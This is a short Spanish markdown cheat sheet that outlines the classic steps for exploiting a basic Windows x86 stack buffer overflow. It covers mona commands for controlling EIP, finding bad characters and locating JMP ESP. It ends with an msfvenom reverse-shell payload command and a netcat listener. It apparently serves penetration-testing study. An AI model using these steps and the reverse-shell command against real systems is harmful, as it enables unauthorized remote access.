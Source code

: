 # Estrucutra básica del BoF
---
_Esta es una estructura básica de los pasos a seguir a la hora de explotar un Buffer Overflow básico y de los antiguos._

1. Crear un padding muy grande y ver si hay buffer overflow.
2. Tomar el control de EIP para ello:
 - !mona pattern_create 1000 (immunity) - mona.mona ("pattern_create 1000") (x32dbg)
 - Ver EIP y ver que elementos tiene.
 - Hacer una resta a mano comparando donde empieza y donde acaba // utilizar mona:
   - !mona pattern_offset xxxxxx - mona.mona ("patern offset xxxx")
3. Una vez tenemos el control de EIP, sacaremos los badchars. (Para que se guarde en logs: "!mona config -set workingfolder c:\logs\%p").
 - !mona bytearray -cpb "\x00" --> copiamos y pegamos en el script
 - Ejecutamos de nuevo el programa.
 - Lo vemos manualmente: Seccion de Hexdump --> Go to --> ESP --> Vemos cuando se rompe la cadena de bytearray
 - Con mona: "!mona compare -f C:\logs...bytearray.bin -a ADDRESS" --> Nos indica los badchars
 - Volvemos a generar el bytearray eliminando los badchars y volvemos a empezar hasta que no quede ninguna.
4. Buscaremos en el programa un JMP ESP que no tenga ASLR.
 - !mona jmp -r esp (immunity) - mona.mona ("jmp -r esp") (x32dbg)
 - Comprobamos que la direccion que seleccionamos no contiene badchars.
 - La colocamos en la direccion de retorno, que es EIP, el cual hemos controlado anteriormente.
5. Generar o buscar una shellcode/reverse shellcode.
````
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=4444 EXITFUNC=thread -b '\x00\x0a\x09\x1a' -a x86 --platform Windows -f python -v shellcode_reverse_shell
--smallest
````
6. Nos ponemos a la escucha:
````
 nc -lvnp 4444 // use exploit/multi/handler
````
7. Ejecutamos y... **FIN**
